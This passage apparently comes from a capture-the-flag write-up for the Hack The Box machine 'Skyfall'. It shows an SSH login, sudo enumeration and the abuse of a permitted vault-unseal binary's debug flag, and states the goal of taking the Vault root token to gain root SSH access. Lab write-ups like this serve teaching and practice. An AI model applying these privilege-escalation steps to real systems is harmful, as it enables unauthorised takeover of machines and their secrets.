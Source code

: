 ```bash
╰─➤  ssh askyy@skyfall.htb                                  
(askyy@skyfall.htb) Password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
askyy@skyfall:~$ id
uid=1000(askyy) gid=1000(askyy) groups=1000(askyy)
askyy@skyfall:~$ 
## DONEEEEEE
```

## Root shell

```bash
askyy@skyfall:/tmp/heap$ sudo -l
Matching Defaults entries for askyy on skyfall:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User askyy may run the following commands on skyfall:
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal ^-c /etc/vault-unseal.yaml -[vhd]+$
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml

askyy@skyfall:/tmp/heap$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -v
[+] Reading: /etc/vault-unseal.yaml
[-] Security Risk!
[-] Master token found in config: ****************************
[>] Enable 'debug' mode for details
[+] Found Vault node: http://prd23-vault-internal.skyfall.htb
[>] Check interval: 5s
[>] Max checks: 5
[>] Checking seal status
[+] Vault sealed: false
askyy@skyfall:/tmp/heap$ ls

```

Master token is basically root token, which can do anything, our end goal is to get master token and get root ssh creds.\
Read more about tokens here:

{% embed url="https://developer.hashicorp.com/vault/docs/concepts/tokens#root-tokens" %}

```bash
askyy@skyfall:/tmp/heap$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -d
[>] Checking seal status
[+] Vault sealed: false

askyy@skyfall:/tmp/heap$ ls -la 
total 12
drwxrwxr-x  2 askyy askyy 4096 Sep  1 18:18 .
drwxrwxrwt 13 root  root  4096 Sep  1 18:18 ..
-rw-------  1 root  root   590 Sep  1 18:18 debug.log
```
